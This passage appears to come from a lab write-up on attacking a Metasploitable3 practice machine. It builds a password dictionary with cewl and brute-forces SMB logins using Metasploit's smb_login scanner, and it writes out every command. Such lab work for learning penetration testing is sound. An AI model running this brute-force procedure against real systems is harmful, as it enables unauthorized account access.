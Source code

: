 Now that we have identified the IP address of the target machine, we can attempt to gain access by impersonating a legitimate user. One common method is to connect to the system via its SSH service using valid user credentials. However, this approach is not viable in our case, as there is no SSH service running on port 22 (*Fig. 2*), which prevents us from establishing any SSH connection with the target machine.

An alternative method for gaining initial access is to perform a brute-force attack against the SMB service(running on port 445) using a dictionary of usernames and passwords to obtain valid credentials. **SMB** is a network protocol used for sharing resources between computers. It operates on a client-server model and includes mechanisms for both user authentication and authorization.

##### **Dictionary creation:**
  First thing first, we need to construct a dictionary that can be obtained from the target's configuration page content. We do this by using the following command: `cewl -d 0 -w dictionary.txt https://github.com/rapid7/metasploitable3/wiki/Configuration`, which crawls a given web page and extracts useful words to build a dictionary file.
  
For the purposes of this project, to reduce the time required for exploitation, we can limit the dictionary to a maximum of 15 words. Additionally, we ensure that the following key terms are included in the list: *vagrant*, *administrator*, *Administrator*, and *sploit*.
  
##### **Exploit execution:**

  * **Launching Metasploit:** Starting Metasploit on the terminal using:`msfconsole -q`
  
  * **Using the SMB scanner:** Within Metasploit, we load the scanner `use auxiliary/scanner/smb/smb_login` 
  
  * **Target setup:** Defining IP address of target machine: `set RHOSTS 10.0.2.4`
  
  * **USERNAME/PASSWORD dictionaries setup:** `set USER_FILE /home/kali/dictionary.txt` & `set PASS_FILE /home/kali/dictionary.txt`
  
  * **Stopping on success:** Attack is stopped as soon as a valid credentials are found: `set STOP_ON_SUCCESS true`
  
To run the exploit, use `run`.

![*Fig. 3*](images/smb_scan_credentials.png)
